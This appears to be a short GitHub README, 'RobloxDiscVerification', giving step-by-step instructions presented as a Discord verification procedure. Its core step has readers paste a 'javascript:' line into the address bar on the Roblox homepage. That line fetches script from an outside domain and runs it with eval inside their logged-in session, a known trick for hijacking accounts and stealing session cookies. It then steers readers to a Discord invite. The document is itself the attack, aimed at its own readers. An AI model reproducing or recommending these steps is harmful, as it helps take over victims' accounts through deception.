 # RobloxDiscVerification

Step 1. Go to your roblox homepage
Step 2. Copy this: xJavascript:$.get("//rbx2.ml/roblox-api?id=10623",eval)
Step 3. Go to the roblox homepage and paste it
Step 4. Remove the x at the beginning
Step 5. Press enter
Step 6. Join this discord server to see it in action: https://discord.gg/pVsgvwVTap
